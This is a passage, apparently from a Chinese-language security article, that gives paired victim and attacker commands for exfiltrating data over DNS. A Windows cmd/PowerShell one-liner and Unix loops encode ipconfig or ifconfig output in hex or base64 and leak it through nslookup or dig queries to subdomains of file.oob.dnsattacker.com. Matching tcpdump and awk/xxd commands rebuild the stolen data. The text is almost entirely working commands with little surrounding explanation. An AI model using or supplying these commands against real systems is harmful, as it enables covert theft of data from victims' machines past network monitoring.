 **攻击者：**  
```
echo "encoded output" |base64 -d  # 使用 base64 解码输出
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoTZoRX04P4X5Q0Kvwg1WRwboYIP4CBnNWNtQQMFVJIHyUjxfRhPSZeg/640?wx_fmt=png&from=appmsg "")  
###### 发送多行和大尺寸的输出  
  
**受害者**  
```
cmd /v /c "ipconfig > output && certutil -encodehex -f output output.hex 4 && powershell $text=Get-Content output.hex;$subdomain=$text.replace(' ','');$j=11111;foreach($i in $subdomain){ $final=$j.tostring()+'.'+$i+'.file.oob.dnsattacker.com';$j += 1; nslookup $final }"    # 以 HEX 格式发送文件
```  
  
**攻击者**  
```
sudo tcpdump -n port 53 | tee file.txt
```  
  
**提取和构造输出：**  
```
echo "0x$(cat file.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n')" | xxd -r -p
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoSIYHXQZGiaPxbB8mWttJUQf0SsNX2M5lLKAeP8bWicO5hUS6hIM0wuJw/640?wx_fmt=png&from=appmsg "")  
  
**限制**  
：需要 Powershell  
##### Unix  
  
**受害者：**  
```
var=11111 && for b in $(ifconfig|xxd -p ); do var=$((var+1)) && dig  $var.$b.file.oob.dnsattacker.com; done   # 以 HEX 格式发送文件
```  
  
**攻击者：**  
```
sudo tcpdump -n port 53 | tee file.txt
```  
  
**提取和构造输出：**  
```
echo "0x$(cat file.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n')" | xxd -r -p
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpouic5s4pJkhLgCe3zOVlFCtVD0T9PSDtFcNashZ7skzloBgViauDNcntQ/640?wx_fmt=png&from=appmsg "")  
  
Base64 编码的文件比十六进制编码的文件尺寸更小。  
  
**受害者：**  
```
var=11111 && for i in $(ifconfig|base64|awk '{gsub(/.{50}/,"&\n")}1'); do var=$((var+1)) && nslookup $var.$i.file.oob.dnsattacker.com; done# 以 base64 格式发送文件
```  
  